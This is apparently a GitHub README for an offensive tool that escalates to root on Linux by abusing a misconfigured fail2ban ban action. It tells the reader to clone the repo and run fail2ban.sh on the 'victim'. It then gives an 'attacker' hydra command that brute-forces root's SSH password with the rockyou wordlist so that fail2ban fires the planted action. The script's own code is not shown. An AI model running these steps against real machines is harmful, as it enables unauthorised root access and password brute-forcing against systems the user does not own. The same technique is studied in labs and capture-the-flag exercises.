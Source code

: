 
# Privilege Escalation via fail2ban
In Linux, fail2ban is mostly used to protect the SSH service. 
If the daemon detects several unsuccessful ssh login attempts, it executes a command that blocks the IP address.
So misconfigurations can lead to privilege escalation.

![alt text](https://github.com/rvizx/fail2ban/blob/main/image.png?raw=true)

# Usage
```
git clone https://github.com/rvizx/fail2ban
```

@victim
```
chmod +x fail2ban.sh
./fail2ban.sh
```

@attacker
```
hydra <ip-addr> -l root -P /usr/share/wordlists/rockyou.txt ssh
```

# Notes
https://youssef-ichioui.medium.com/abusing-fail2ban-misconfiguration-to-escalate-privileges-on-linux-826ad0cdafb7 <br>
https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/


